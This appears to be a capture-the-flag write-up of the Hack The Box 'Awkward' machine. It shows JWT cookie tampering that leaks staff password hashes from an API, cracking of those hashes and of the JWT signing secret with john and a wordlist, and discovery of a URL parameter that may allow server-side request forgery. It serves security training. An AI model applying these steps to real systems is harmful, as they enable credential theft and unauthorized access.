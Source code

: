 1) I change the token value with the Cookie-Editor extension and put admin instead of guest and then refresh the page
2) In the Network section of devtool I find this page"http://hat-valley.htb/api/staff-details"
3) I see the page:
```
JsonWebTokenError: jwt malformed
    at Object.module.exports [as verify] (/var/www/hat-valley.htb/node_modules/jsonwebtoken/verify.js:63:17)
    at /var/www/hat-valley.htb/server/server.js:151:30
    at Layer.handle [as handle_request] (/var/www/hat-valley.htb/node_modules/express/lib/router/layer.js:95:5)
    at next (/var/www/hat-valley.htb/node_modules/express/lib/router/route.js:144:13)
    at Route.dispatch (/var/www/hat-valley.htb/node_modules/express/lib/router/route.js:114:3)
    at Layer.handle [as handle_request] (/var/www/hat-valley.htb/node_modules/express/lib/router/layer.js:95:5)
    at /var/www/hat-valley.htb/node_modules/express/lib/router/index.js:284:15
    at Function.process_params (/var/www/hat-valley.htb/node_modules/express/lib/router/index.js:346:12)
    at next (/var/www/hat-valley.htb/node_modules/express/lib/router/index.js:280:10)
    at cookieParser (/var/www/hat-valley.htb/node_modules/cookie-parser/index.js:71:5)

```

4)  I change the token value with the Cookie-Editor extension and put a empty space instead of guest and then refresh the page:

```
[{"user_id":1,"username":"christine.wool","password":"6529fc6e43f9061ff4eaa806b087b13747fbe8ae0abfd396a5c4cb97c5941649","fullname":"Christine Wool","role":"Founder, CEO","phone":"0415202922"},{"user_id":2,"username":"christopher.jones","password":"e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1","fullname":"Christopher Jones","role":"Salesperson","phone":"0456980001"},{"user_id":3,"username":"jackson.lightheart","password":"b091bc790fe647a0d7e8fb8ed9c4c01e15c77920a42ccd0deaca431a44ea0436","fullname":"Jackson Lightheart","role":"Salesperson","phone":"0419444111"},{"user_id":4,"username":"bean.hill","password":"37513684de081222aaded9b8391d541ae885ce3b55942b9ac6978ad6f6e1811f","fullname":"Bean Hill","role":"System Administrator","phone":"0432339177"}]
```

5) I put this password in a file and I crack with john:
```
┌──(kali㉿kali)-[~/Awkward]
└─$ nano hash 

6529fc6e43f9061ff4eaa806b087b13747fbe8ae0abfd396a5c4cb97c5941649
e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1
b091bc790fe647a0d7e8fb8ed9c4c01e15c77920a42ccd0deaca431a44ea0436
37513684de081222aaded9b8391d541ae885ce3b55942b9ac6978ad6f6e1811f

┌──(kali㉿kali)-[~/Awkward]
└─$ john hash --wordlist:/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
Using default input encoding: UTF-8
Loaded 4 password hashes with no different salts (Raw-SHA256 [SHA256 128/128 AVX 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
chris123         (?)     
1g 0:00:00:00 DONE (2023-01-02 14:53) 1.086g/s 15590Kp/s 15590Kc/s 46807KC/s (454579)..*7¡Vamos!
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed. 
```
Username: christopher.jones
Password: chris123

6) I see the cookie every with Cookie-Editors and I find this Cookie:
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNocmlzdG9waGVyLmpvbmVzIiwiaWF0IjoxNjcyNjg5NzYxfQ.l3SR2C7_ky7EFL6OlnmqvCVAuIzEF9AHPVu7Sd7Xfk8
```

7) I put this cookie in a file and I crack with john:
```
┌──(kali㉿kali)-[~/Awkward]
└─$ john hash2  --wordlist:/usr/share/wordlists/rockyou.txt                   
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
123beany123      (?)     
1g 0:00:00:02 DONE (2023-01-02 15:07) 0.3731g/s 4974Kp/s 4974Kc/s 4974KC/s 123erix..123P45
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

8) I refresh the page and in the Network section of devtool I find this page"http://hat-valley.htb/api/store-status?url=%22http:%2F%2Fstore.hat-valley.htb%22"

